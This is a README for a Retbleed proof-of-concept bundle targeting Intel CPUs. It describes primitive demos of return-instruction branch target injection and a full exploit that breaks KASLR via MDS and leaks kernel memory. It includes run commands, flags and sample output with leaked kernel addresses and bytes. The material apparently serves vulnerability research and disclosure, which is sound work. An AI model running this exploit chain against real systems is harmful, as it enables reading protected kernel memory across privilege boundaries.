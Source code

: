 # Retbleed --- Intel PoC

The bundle contains a full exploit under `exploits/` and minimal PoCs under
`pocs/` to show the primitives.

The code has been tested on a system with

- Intel(R) Core(TM) i7-8700K CPU @ 3.70GHz
- Ubuntu 20.04.3 LTS
- 5.8.0-63-generic (Signed kernel image generic)

## `pocs/`
We provide two PoCs, ret_bti and cp_bti that show branch target injection
on return instructions, in the same user-space process and cross-privilege
boundaries, respectively. These PoCs only show the primitives --- they are not
full exploits and are not intended to be.

Because transparent huge pages are not always successfully created, we use one
huge page:
```
echo 1 | sudo tee /proc/sys/vm/nr_hugepages
```

## `pocs/ret_bti`
Shows branch target injection on return instructions in a user space process.
The PoC uses a reload buffer that has 16 possible slots. Upon a controlled
misprediction, we want the 10th entry to become hot. The expected results is
shown below.

```
kwikner@ee-tik-cn104:retbleed/retbleed_intel/pocs$ ./ret_bti
0 0 0 0 0 0 0 0 0 0 4224 0 0 0 0 0
```

Note: We've confirmed that it also works on Coffee Lake Refresh.

## `pocs/cp_bti`

This PoC shows that we can hijack return instructions across privilege
boundaries. We use a kernel module that executes a vulnerable return
instruction to speculatively direct the control flow to a
never-achitecturally-executed function that acts as disclosure gadget. The
kernel module is found under `/pocs/kmod_retbleed_poc/` (`make
install`). Furthermore, the user-space binary requires root to read
`/proc/self/pagemap`. Expected output:

```
kwikner@ee-tik-cn104:~/pocs$ sudo ./cp_bti
rb_pa   0x28d200000
rb_kva  0xffff9e2a0d200000
kbr_src 0xffffffffc092887b
kbr_dst 0xffffffffc0928000
0 0 0 0 0 0 0 0 0 0 31765 0 0 0 0 0
```

Note: we have not tested this carefully on Coffee Lake Refresh because enhanced
IBRS makes our method infeasible.

## `exploits/`

For Retbleed to work, the kernel image base and a physical address of a
transparent huge page is needed. We leak these using MDS over load ports. 

### `exploits/break_kaslr`
This is merely MDS, no Retbleed is involved. We're running on a 6-core machine
so we pin the process to cores 1,7. For other CPU numbering, set the `-c` flag
for `taskset` accordingly. Expected output

```
kwikner@ee-tik-cn104:retbleed_intel/exploits$ taskset -c 1,7 ./break_kaslr
[-] Break KASLR (LP-MDS)...
[*] sys_ni_syscall @ 0xffffffffa06044b0 t=2.596s
[*] kernel_text @ 0xffffffffa0600000
```

### `exploits/retbleed`

Retbleed relies on winning a race against the kernel stack, and does so by
evicting it in a sibling thread.

```
exploits$ ./retbleed -h
Usage: ./retbleed --cpu1=<value> --cpu2=<value> --kbase=<kernel_base>
                  --physmap_base=<value> [--leak_perf]
```

Sometimes Retbleed will not immediately lock on to the signal. We are not
sure about what the exact reason is. However, restarting it will eventually
result in getting a signal, hence we run it in a loop until it exits with a
without an error status:

```
/exploits$ ./do_retbleed.sh 0 0xffffffffa0600000 leak_perf
.......
[-] Leak PA of 0xd000000000 (LP-MDS)...
[*] 0x287400000 t=284ms
[*] physmap @ 0xffff9e2780000000 t=1.059
[-] Leak some bytes (Retbleed)... target=ffffffffa19a7269
3Spectre V2 : XXtpoline,amd selected but CPU is not AMD. Switching to AUTO
XXlect???????6Spectre V2 : %s selected on command line.??????3Spectre V2 :
Spectre mitigation: iernel not compiled with retpoline; no mitigation
available!??3Spectre V2 : Spectre mitigation: LFENCE not serializing, switching
to generic retpoline????????6Spectre V2 : Spectre v2 / SpectreRSB mitigation:
Filling RSB on context switch?????????6Spectre V2 : Enabling Restricted
Speculation for firmware calls??X?????6SpeXtre V2 : spectre_v2_user=%s forced on
command line.????????3Spectre V2 : Unknown user space protection option (%s).
Switching to AUTO select???????6Spectre XXX: mitigation: Egabling %s IndXXect
BranXh Prediction Barrier????????6Speculative Store Bypass: %s???4L1TF: System
has more than MAX_PA/2 memory. L1TF mitigation not effective.?????6L1TF: You may
make it effective by booting the kernel with mem=%llu parameter.?????????6L1TF:
However, doing so will makd a partXof your RAM unusable.?????????6L1TF: Re 
[*] Leaked 1000 bytes in 4.823 seconds
```

Sometimes it takes several minutes before it successfully starts to leak.
